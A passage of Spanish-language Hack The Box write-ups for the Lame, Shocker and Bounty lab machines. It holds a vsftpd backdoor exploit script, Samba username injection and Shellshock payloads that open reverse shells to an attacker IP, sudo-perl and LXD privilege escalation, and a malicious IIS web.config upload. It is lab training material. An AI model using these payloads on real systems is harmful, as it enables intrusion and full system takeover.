\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
21 & ftp & Conexion como Anonymous &\tabularnewline
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
139 & smbd & Conneccion con Null session &\tabularnewline
445 & smbd & Conneccion con Null session &\tabularnewline
3632 & distccd & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{conexion-anonymous-con-ftp}{%
\subsection*{Conexion Anonymous con ftp}\label{conexion-anonymous-con-ftp}}
\addcontentsline{toc}{subsection}{Conexion Anonymous con ftp}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.3}

\ExtensionTok{Name}\NormalTok{: anonymous}
\ExtensionTok{Password}\NormalTok{: }

\ExtensionTok{Login}\NormalTok{ successful}

\FunctionTok{ls}
\end{Highlighting}
\end{Shaded}

Podemos connectar como anonymous pero no nos reporta nada. El resultado de nmap nos da que el vsftpd es de version 2.3.4.

\hypertarget{vulnerability-assessment-13}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-13}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{vsftpd-2.3.4}{%
\subsection*{vsftpd 2.3.4}\label{vsftpd-2.3.4}}
\addcontentsline{toc}{subsection}{vsftpd 2.3.4}

Miramos si existe un exploit para este servicio.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ vsftpd 2.3.4}
\end{Highlighting}
\end{Shaded}

Vemos que hay una vulnerabilidad y que existe un exploit. Como el exploit es une exploit Metasploit, vamos buscando por
la web si existe otro exploit y la encontramos en \href{https://github.com/cherrera0001/vsftpd_2.3.4_Exploit}{cherrera0001 github}.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import}\NormalTok{ log,remote}
\ImportTok{from}\NormalTok{ sys }\ImportTok{import}\NormalTok{ argv,exit}
\ImportTok{from}\NormalTok{ time }\ImportTok{import}\NormalTok{ sleep}

\ControlFlowTok{if} \BuiltInTok{len}\NormalTok{(argv) }\OperatorTok{<} \DecValTok{2}\NormalTok{:}
\NormalTok{    exit(}\SpecialStringTok{f'Usage: }\SpecialCharTok{\{}\NormalTok{argv[}\DecValTok{0}\NormalTok{]}\SpecialCharTok{\}}\SpecialStringTok{ Target_IP'}\NormalTok{)}


\NormalTok{p }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Running"}\NormalTok{)}
\NormalTok{vsftpd }\OperatorTok{=}\NormalTok{ remote(argv[}\DecValTok{1}\NormalTok{], }\DecValTok{21}\NormalTok{)}

\NormalTok{p.status(}\StringTok{'Checking Version'}\NormalTok{)}
\NormalTok{recv }\OperatorTok{=}\NormalTok{ vsftpd.recvuntil(}\StringTok{")"}\NormalTok{,timeout}\OperatorTok{=}\DecValTok{5}\NormalTok{)}
\NormalTok{version }\OperatorTok{=}\NormalTok{ (recv.decode()).split(}\StringTok{" "}\NormalTok{)[}\DecValTok{2}\NormalTok{].replace(}\StringTok{")"}\NormalTok{,}\StringTok{""}\NormalTok{)}
\ControlFlowTok{if}\NormalTok{ version }\OperatorTok{!=} \StringTok{'2.3.4'}\NormalTok{:}
\NormalTok{    exit(}\StringTok{'2.3.4 Version Not Found'}\NormalTok{)}

\NormalTok{vsftpd.sendline(}\StringTok{'USER hii:)'}\NormalTok{)}
\NormalTok{vsftpd.sendline(}\StringTok{'PASS hello'}\NormalTok{)}
\NormalTok{p.status(}\StringTok{'Backdoor Activated'}\NormalTok{)}

\NormalTok{sleep(}\DecValTok{3}\NormalTok{)}

\NormalTok{backdoor }\OperatorTok{=}\NormalTok{ remote(argv[}\DecValTok{1}\NormalTok{], }\DecValTok{6200}\NormalTok{)}
\NormalTok{p.success(}\StringTok{"Got Shell!!!"}\NormalTok{)}
\NormalTok{backdoor.interactive()}
\end{Highlighting}
\end{Shaded}

Si lanzamos el script no funcciona, parece ser que la version a sido parcheada -\textgreater{} rabbithole.

\hypertarget{samba-3.0.20}{%
\subsection*{SAMBA 3.0.20}\label{samba-3.0.20}}
\addcontentsline{toc}{subsection}{SAMBA 3.0.20}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ samba 3.0.20}
\end{Highlighting}
\end{Shaded}

Vemos que hay un exploit para Metasploit que permite ejecutar commandos. Examinamos el script con el commando \texttt{searchsploit\ -x\ 16320} y vemos
que podemos injectar commandos desde el nombre de usuario con el formato siguiente

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{username = }\StringTok{"/=`nohup "}\NormalTok{ + payload.encoded + }\StringTok{"`"}
\end{Highlighting}
\end{Shaded}

Vamos a por pruebas

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha de trazas ICMP

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ -i tun0 icmp -n}
\end{Highlighting}
\end{Shaded}
\item
  Intentamos enviar commandos siguiendo la guia del script

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.3 -N --option=}\StringTok{"client min protocol=NT1"}
\ExtensionTok{smbclient}\NormalTok{ //10.10.10.3/tmp -N --option=}\StringTok{"client min protocol=NT1"}\NormalTok{ -c }\StringTok{"dir"}
\ExtensionTok{smbclient}\NormalTok{ //10.10.10.3/tmp -N --option=}\StringTok{"client min protocol=NT1"}
\ExtensionTok{smb}\NormalTok{: }\DataTypeTok{\textbackslash{}>}\NormalTok{ logon }\StringTok{"/='nohup ping -c 1 10.10.14.7'"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Vemos que esto functionna perfectamente. Vamos a ganar accesso al systema.

\hypertarget{vuln-exploit-gaining-access-13}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-13}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-desde-la-vulnerabilidad-samba-3.0.20}{%
\subsection*{Ganando accesso desde la vulnerabilidad SAMBA 3.0.20}\label{ganando-accesso-desde-la-vulnerabilidad-samba-3.0.20}}
\addcontentsline{toc}{subsection}{Ganando accesso desde la vulnerabilidad SAMBA 3.0.20}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Intentamos enviar commandos siguiendo la guia del script

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ //10.10.10.3/tmp -N --option=}\StringTok{"client min protocol=NT1"}\NormalTok{ -c }\StringTok{'logon "/=`nohup nc -e /bin/bash 10.10.14.7 443`"'}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Hemos ganado accesso al systema.

\hypertarget{tratamiento-de-la-tty-17}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-17}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Dandole a \texttt{whoami} vemos que ya estamos root ;) No se necessita escalar privilegios en este caso.

\hypertarget{shocker}{%
\chapter*{Shocker}\label{shocker}}
\addcontentsline{toc}{chapter}{Shocker}

\hypertarget{introduccion-27}{%
\section*{Introduccion}\label{introduccion-27}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 20/08/2021 se shocker.

El replay del live se puede ver aqui

\href{hhttps://www.youtube.com/watch?v=7BGLph5TWMY}{\includegraphics{https://img.youtube.com/vi/7BGLph5TWMY/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-27}{%
\section*{Enumeracion}\label{enumeracion-27}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-27}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-27}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-27}{%
\subsubsection*{Ping}\label{ping-27}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.56}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-27}{%
\subsubsection*{Nmap}\label{nmap-27}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.56}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.56 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,2222 10.10.10.56 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, Fuzzing &\tabularnewline
2222 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-12}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-12}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-20}{%
\subsubsection*{Whatweb}\label{whatweb-20}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.56}
\end{Highlighting}
\end{Shaded}

Nada interesante aqui

\hypertarget{http-enum-8}{%
\subsubsection*{http-enum}\label{http-enum-8}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.56 -oN webScan}
\end{Highlighting}
\end{Shaded}

Nada interesante.

\hypertarget{analyzando-la-web-con-firefox-2}{%
\subsubsection*{Analyzando la web con Firefox}\label{analyzando-la-web-con-firefox-2}}
\addcontentsline{toc}{subsubsection}{Analyzando la web con Firefox}

Hay una pagina que nos dice \emph{Don't Bug Me!} y nada mas. Como la maquina se llama Shocker, pensamos directamente al ataque ShellShock

\hypertarget{fuzzing-con-wfuzz-9}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-9}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/}
\end{Highlighting}
\end{Shaded}

Encontramos una routa muy interesante que es el \texttt{cgi-bin} que es la routa donde si la bash es vulnerable podemos hacer un ataque shellshock.

\hypertarget{vulnerability-assessment-14}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-14}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{shellshock-attack}{%
\subsection*{ShellShock attack}\label{shellshock-attack}}
\addcontentsline{toc}{subsection}{ShellShock attack}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  creamos un diccionario de extensiones

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ extension.txt}

\FunctionTok{sh}
\ExtensionTok{pl}
\ExtensionTok{py}
\ExtensionTok{cgi}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos nuevamente wfuzz con la extension

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extension.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Como aqui hemos encontrado un fichero \texttt{user.sh} lanzamos un curl para ver lo que es.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.56/cgi-bin/user.sh"}
\end{Highlighting}
\end{Shaded}

Ya podemos lanzar el ataque shellshock cambiando la cabezera User-Agent.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.56/cgi-bin/user.sh"}\NormalTok{ -H }\StringTok{"User-Agent: () \{ :; \}; /usr/bin/whoami"}
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.56/cgi-bin/user.sh"}\NormalTok{ -H }\StringTok{"User-Agent: () \{ :; \};echo;echo; /usr/bin/whoami"}
\end{Highlighting}
\end{Shaded}

Vemos la respuesta shelly quiere decir que estamos en capacidad de ejecutar commandos a nivel de systema, gracias a esta vulnerabilidad.

\hypertarget{vuln-exploit-gaining-access-14}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-14}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-desde-la-vulnerabilidad-shellshock}{%
\subsection*{Ganando accesso desde la vulnerabilidad ShellShock}\label{ganando-accesso-desde-la-vulnerabilidad-shellshock}}
\addcontentsline{toc}{subsection}{Ganando accesso desde la vulnerabilidad ShellShock}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Entablamos una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.56/cgi-bin/user.sh"}\NormalTok{ -H }\StringTok{"User-Agent: () \{ :; \};echo;echo; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Hemos ganado accesso al systema.

\hypertarget{tratamiento-de-la-tty-18}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-18}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Dandole a \texttt{whoami} vemos que ya estamos shelly y que podemos leer la flag.

\hypertarget{privilege-escalation-12}{%
\section*{Privilege Escalation}\label{privilege-escalation-12}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-21}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-21}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en el grupo lxd ;) y ademas podemos ejecutar /usr/bin/perl como root si proporcionar contraseña.

\hypertarget{escalar-privilegios-con-usrbinperl}{%
\subsection*{Escalar privilegios con /usr/bin/perl}\label{escalar-privilegios-con-usrbinperl}}
\addcontentsline{toc}{subsection}{Escalar privilegios con /usr/bin/perl}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -u root perl -e }\StringTok{'exec "/bin/sh"'}
\FunctionTok{whoami} 
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{escalar-privilegios-con-lxd}{%
\subsection*{Escalar privilegios con LXD}\label{escalar-privilegios-con-lxd}}
\addcontentsline{toc}{subsection}{Escalar privilegios con LXD}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ lxd}
\ExtensionTok{searchsploit}\NormalTok{ -x 46978}
\end{Highlighting}
\end{Shaded}

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{uname}\NormalTok{ -a}
\end{Highlighting}
\end{Shaded}

Seguimos los passos del exploit

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine}
\FunctionTok{chmod}\NormalTok{ +x build-alpine}
\ExtensionTok{./build-alpine} \CommentTok{# --> para maquinas x64}
\ExtensionTok{./build-alpine}\NormalTok{ -a i686 }\CommentTok{# --> para maquinas i686}
\ExtensionTok{searchsploit}\NormalTok{ -m 46978}
\FunctionTok{mv}\NormalTok{ 46978.sh lxd_privesc.sh}
\ExtensionTok{dos2unix}\NormalTok{ lxd_privesc.sh}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz}
\FunctionTok{wget}\NormalTok{ http://10.10.14.20/lxd_privesc.sh}
\FunctionTok{chmod}\NormalTok{ +x lxd_privesc.sh}
\ExtensionTok{./lxd_privesc.sh}\NormalTok{ -f alpine-v3-14-i686-20210728_2134.tar.gz}
\end{Highlighting}
\end{Shaded}
\item
  vemos un error \texttt{error:\ This\ must\ be\ run\ as\ root}. Modificamos el fichero lxd\_privesc.sh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ lxd_privesc.sh}
\end{Highlighting}
\end{Shaded}

  en la function createContainer(), borramos la primera linea:

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{# lxc image import $filename --alias alpine && lxd init --auto}
\end{Highlighting}
\end{Shaded}
\item
  Ya estamos root pero en el contenedor. Modificamos la \texttt{/bin/bash} de la maquina

  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/root}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ /bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

\hypertarget{bounty}{%
\chapter*{Bounty}\label{bounty}}
\addcontentsline{toc}{chapter}{Bounty}

\hypertarget{introduccion-28}{%
\section*{Introduccion}\label{introduccion-28}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 20/08/2021 se llama Bounty.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=eY0ENzTwv_M}{\includegraphics{https://img.youtube.com/vi/eY0ENzTwv_M/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-28}{%
\section*{Enumeracion}\label{enumeracion-28}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-28}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-28}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-28}{%
\subsubsection*{Ping}\label{ping-28}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.93}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-28}{%
\subsubsection*{Nmap}\label{nmap-28}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.93}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.93 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80 10.10.10.93 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-13}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-13}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-21}{%
\subsubsection*{Whatweb}\label{whatweb-21}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.93}
\end{Highlighting}
\end{Shaded}

Estamos en frente de un IIS

\hypertarget{analyzando-la-web-con-firefox-3}{%
\subsubsection*{Analyzando la web con Firefox}\label{analyzando-la-web-con-firefox-3}}
\addcontentsline{toc}{subsubsection}{Analyzando la web con Firefox}

Vemos una imagen de Merlin ;)

\hypertarget{fuzzing-con-wfuzz-10}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-10}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.93/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos una routa \texttt{uploadedFiles}, probamos con una extension \texttt{.aspx} porque es un IIS

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.93/FUZZ.aspx}
\end{Highlighting}
\end{Shaded}

Encontramos una routa \texttt{transfer.aspx}

Si la analyzamos con firefox, vemos una pagina que nos permite subir ficheros.

\hypertarget{vulnerability-assessment-15}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-15}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{vulnerabilidad-iis-en-file-upload}{%
\subsection*{Vulnerabilidad IIS en file upload}\label{vulnerabilidad-iis-en-file-upload}}
\addcontentsline{toc}{subsection}{Vulnerabilidad IIS en file upload}

Buscamos en internet sobre la busqueda \texttt{iis\ upload\ exploit}. Encontramos una pagina interesante en \href{https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/}{ivoidwarranties}.
Uploadeando un fichero \texttt{web.config} podriamos ejecutar comandos a nivel de systema.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?xml}\NormalTok{ version="1.0" encoding="UTF-8"}\KeywordTok{?>}
\KeywordTok{<configuration>}
   \KeywordTok{<system.webServer>}
      \KeywordTok{<handlers}\OtherTok{ accessPolicy=}\StringTok{"Read, Script, Write"}\KeywordTok{>}
         \KeywordTok{<add}\OtherTok{ name=}\StringTok{"web_config"}\OtherTok{ path=}\StringTok{"*.config"}\OtherTok{ verb=}\StringTok{"*"}\OtherTok{ modules=}\StringTok{"IsapiModule"}\OtherTok{ scriptProcessor=}\StringTok{"%windir%\textbackslash{}system32\textbackslash{}inetsrv\textbackslash{}asp.dll"}\OtherTok{ resourceType=}\StringTok{"Unspecified"}\OtherTok{ requireAccess=}\StringTok{"Write"}\OtherTok{ preCondition=}\StringTok{"bitness64"} \KeywordTok{/>}         
      \KeywordTok{</handlers>}
      \KeywordTok{<security>}
         \KeywordTok{<requestFiltering>}
            \KeywordTok{<fileExtensions>}
               \KeywordTok{<remove}\OtherTok{ fileExtension=}\StringTok{".config"} \KeywordTok{/>}
            \KeywordTok{</fileExtensions>}
            \KeywordTok{<hiddenSegments>}
               \KeywordTok{<remove}\OtherTok{ segment=}\StringTok{"web.config"} \KeywordTok{/>}
            \KeywordTok{</hiddenSegments>}
         \KeywordTok{</requestFiltering>}
      \KeywordTok{</security>}
   \KeywordTok{</system.webServer>}
\KeywordTok{</configuration>}
\CommentTok{<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!}
\CommentTok{<%}
\CommentTok{Response.write("-"&"->")}
\CommentTok{' it is running the ASP code if you can see 3 by opening the web.config file!}
\CommentTok{Response.write(1+2)}
\CommentTok{Response.write("<!-"&"-")}
\CommentTok{%>}
\CommentTok{-->}
\end{Highlighting}
\end{Shaded}

Lo subimos en la red y controlamos en la routa \texttt{http://10.10.10.93/uploadedFiles/web.config}

Aqui vemos que el codigo se a ejecutado. Ahora necessitamos ver si podemos ejecutar codigo a nivel de systema.

Buscamos en la pagina \href{https://www.hackingdream.net/search?q=reverse}{Hacking Dream} un one linear que nos permite entablar una reverse
shell con ASP.

La añadimos al web.config y la modificamos.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?xml}\NormalTok{ version="1.0" encoding="UTF-8"}\KeywordTok{?>}
\KeywordTok{<configuration>}
   \KeywordTok{<system.webServer>}
      \KeywordTok{<handlers}\OtherTok{ accessPolicy=}\StringTok{"Read, Script, Write"}\KeywordTok{>}
         \KeywordTok{<add}\OtherTok{ name=}\StringTok{"web_config"}\OtherTok{ path=}\StringTok{"*.config"}\OtherTok{ verb=}\StringTok{"*"}\OtherTok{ modules=}\StringTok{"IsapiModule"}\OtherTok{ scriptProcessor=}\StringTok{"%windir%\textbackslash{}system32\textbackslash{}inetsrv\textbackslash{}asp.dll"}\OtherTok{ resourceType=}\StringTok{"Unspecified"}\OtherTok{ requireAccess=}\StringTok{"Write"}\OtherTok{ preCondition=}\StringTok{"bitness64"} \KeywordTok{/>}         
      \KeywordTok{</handlers>}
      \KeywordTok{<security>}
         \KeywordTok{<requestFiltering>}
            \KeywordTok{<fileExtensions>}
               \KeywordTok{<remove}\OtherTok{ fileExtension=}\StringTok{".config"} \KeywordTok{/>}
            \KeywordTok{</fileExtensions>}
            \KeywordTok{<hiddenSegments>}
               \KeywordTok{<remove}\OtherTok{ segment=}\StringTok{"web.config"} \KeywordTok{/>}
            \KeywordTok{</hiddenSegments>}
         \KeywordTok{</requestFiltering>}
      \KeywordTok{</security>}
   \KeywordTok{</system.webServer>}
\KeywordTok{</configuration>}
\CommentTok{<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!}
\CommentTok{<%}
\CommentTok{Set co = CreateObject("WScript.Shell")}
\CommentTok{Set cte = co.Exec("ping 10.10.14.7")}
\CommentTok{output = cte.StdOut.Readall()}
\CommentTok{Response.write(output)}
\CommentTok{%>}
\CommentTok{-->}
\end{Highlighting}
\end{Shaded}

Nos ponemos en escucha de trazas ICMP \texttt{tcpdump\ -i\ tun0\ icmp\ -n} y enviamos el fichero nuevamente y vemos que recibimos la traza ICMP.

\hypertarget{vuln-exploit-gaining-access-15}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-15}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-un-web.config}{%
\subsection*{Ganando accesso con un web.config}\label{ganando-accesso-con-un-web.config}}
\addcontentsline{toc}{subsection}{Ganando accesso con un web.config}

Aqui trabajaremos con Nishang porque nos queremos entablar una PowerShell.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Descargamos Nishang y modificamos el fichero de reverse shell por tcp

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/samratashok/nishang}
\BuiltInTok{cd}\NormalTok{ nishang/Shells}
\FunctionTok{cp}\NormalTok{ Invoke-PowerShellTcp.ps1 ../../PS.ps1}
\BuiltInTok{cd}\NormalTok{ ../..}
\FunctionTok{nano}\NormalTok{ PS.ps1}
\end{Highlighting}
